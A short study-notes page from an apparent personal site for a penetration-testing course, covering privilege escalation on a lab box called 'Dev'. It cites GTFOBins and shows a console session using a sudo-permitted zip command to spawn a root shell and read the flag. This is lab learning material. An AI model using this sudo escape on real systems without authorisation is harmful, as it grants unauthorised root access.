 ```yaml
---
layout: default
title: Privilege Excalation
parent: Dev
grand_parent: TCM-Sec - PEH
permalink: /tcm-sec-PEH/dev/privilege-excalation
nav_order: 7
---
```


# Privilege Excalation <!-- markdownlint-disable-line MD025 MD022 -->
{: .no_toc}

## Table of contents <!-- markdownlint-disable-line MD022 -->
{: .no_toc .text-delta}

- TOC
{:toc }

## gtfobins

[https://gtfobins.github.io/gtfobins/zip/#sudo](https://gtfobins.github.io/gtfobins/zip/#sudo)

![gtfobins](../../assets/TCM-Sec/Dev/%20GTFOBins.png)

```console
jeanpaul@dev:~$ TF=$(mktemp -u)
jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
# ls
flag.txt 
# cat flag.txt  
Congratz on rooting this box !
```

> WE GOT ROOT & FLAG!!!

---
